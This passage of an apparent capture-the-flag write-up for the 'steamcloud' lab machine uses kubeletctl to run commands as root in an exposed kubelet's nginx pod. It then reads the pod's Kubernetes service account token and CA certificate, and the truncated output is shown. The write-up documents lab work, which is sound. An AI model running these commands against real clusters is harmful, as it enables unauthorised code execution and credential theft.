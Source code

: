 ```bash
│ 1 │ 10.129.96.167 │ nginx                              │ default     │ nginx                   │ +   │
├───┼───────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 2 │               │ etcd-steamcloud                    │ kube-system │ etcd                    │ -   │
├───┼───────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 3 │               │ kube-apiserver-steamcloud          │ kube-system │ kube-apiserver          │ -   │
├───┼───────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
...
```

Successfully achieved RCE as root. Damn that was easy (not done yet XD).

```bash
~/Desktop/tools/kubeletctl -i --server 10.129.96.167 exec 'id' -p nginx -c nginx 
uid=0(root) gid=0(root) groups=0(root)
```

<img src="/assets/img/steamcloud/Untitled 2.png" alt="Untitled 1.png" style="width:800px;">

# PrivEsc

Collected the token and the certificate.

```bash
~/Desktop/tools/kubeletctl -i --server 10.129.96.167 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a dusk.token
eyJhbGciOiJSUzI1NiIsImtpZCI6InhSTUk1WlNBX0hY...

~/Desktop/tools/kubeletctl -i --server 10.129.96.167 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a dusk.crt  
-----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
a3ViZUNBMB4XDTIxMTEyOTEyMTY1NVoXDTMxMTEyODEyMTY1NVowFTETMBEGA1UE
...
```
